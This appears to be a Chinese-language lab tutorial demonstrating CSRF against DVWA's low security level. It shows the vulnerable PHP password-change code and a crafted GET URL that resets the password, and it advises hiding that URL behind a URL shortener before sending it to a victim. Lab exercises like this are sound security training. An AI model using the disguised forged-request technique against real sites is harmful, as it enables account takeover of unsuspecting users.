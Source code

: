 ## csrf演示dvwa的low模式
### 0、php源码
```shell script
if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];   # 前端拿新密码
    $pass_conf = $_GET[ 'password_conf' ];  # 前端拿新密码

    // Do the passwords match?
    if( $pass_new == $pass_conf ) { # 判断2次密码是否一致
        ...
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
### 1、一般来说，GET请求，参数是什么，还是比较明显的
```shell script
http://172.16.120.252:8080/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```
![image](https://github.com/498946975/Security/blob/master/images/csrf_01.png)
### 2、建议使用短链接，短链接转换网址
https://www.ft12.com/
### 3、修改网址
长网址
```shell script
http://172.16.120.252:8080/vulnerabilities/csrf/?password_new=456&password_conf=456&Change=Change#
```
上面长网址，变成短网址
```shell script
http://u6.gg/kp9bg
```